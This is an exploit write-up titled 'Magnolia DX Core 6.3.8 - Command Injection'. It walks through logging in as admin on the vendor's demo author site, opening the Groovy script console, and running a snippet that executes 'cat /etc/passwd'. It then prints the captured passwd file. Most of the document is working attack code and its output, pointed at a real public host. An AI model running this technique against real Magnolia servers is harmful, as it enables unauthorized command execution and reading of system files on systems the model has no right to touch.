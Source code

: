 #### Exploit Title: Magnolia DX Core 6.3.8 - Command Injection  
#### Date: 05/16/2025  
#### Exploit Author: tmrswrr  
#### Version: 6.3.8  
#### Vendor home page: https://docs.magnolia-cms.com/home/  
#### Product: https://docs.magnolia-cms.com/product-docs/6.3/releases/release-notes-for-magnolia-cms-6.3.8/  
#### Demo: https://docs.magnolia-cms.com/product-docs/6.3/getting-started-with-magnolia/demo/  

1) Authenticate as an admin:  
   `https://demoauthor.magnolia-cms.com/.magnolia/admincentral`  
2) Navigate to **Development > Groovy > Add Script**  
3) Inject Groovy Script:

   ```groovy
   def process = "cat /etc/passwd".execute()
   def output = new StringBuffer()
   process.consumeProcessOutput(output, System.err)
   process.waitFor()

   println ${output}```
Result : 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash```
